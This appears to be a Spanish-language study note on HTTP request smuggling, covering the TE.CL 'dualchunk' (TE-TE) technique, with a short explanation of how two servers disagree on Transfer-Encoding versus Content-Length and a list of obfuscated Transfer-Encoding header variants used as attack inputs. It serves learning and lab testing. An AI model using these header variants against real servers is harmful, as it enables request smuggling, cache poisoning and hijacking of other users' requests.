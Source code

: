 ### TE.CL dualchunk - Transfer-encoding obfuscated  

* Importante ==> las dos pruebas de la CHeatSheet nos dicen que es TE-TE. 
* Objetivo? Engañar a uno de los dos servidores para que no procese la cabecera TE y procese la de CL. Para ello, ofuscamos la TE header con las técnicas de abajo, y cogeremos la tercera.

El resumen del ataque es este:

![te-te_cl](images/te-te_cl.png)

El primer servidor interpreta la cabecera TE. No obstante, metiendo la ofuscación, conseguimos que el segundo servidor procese la de Content Length.

>If Duplicate header names are allowed, and the vulnerability is detected as **dualchunk**, then add an additional header with name and value = **Transfer-encoding: cow**.  Use **obfuscation** techniques with second TE.  

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

Transfer-encoding: identity
Transfer-encoding: cow
```  
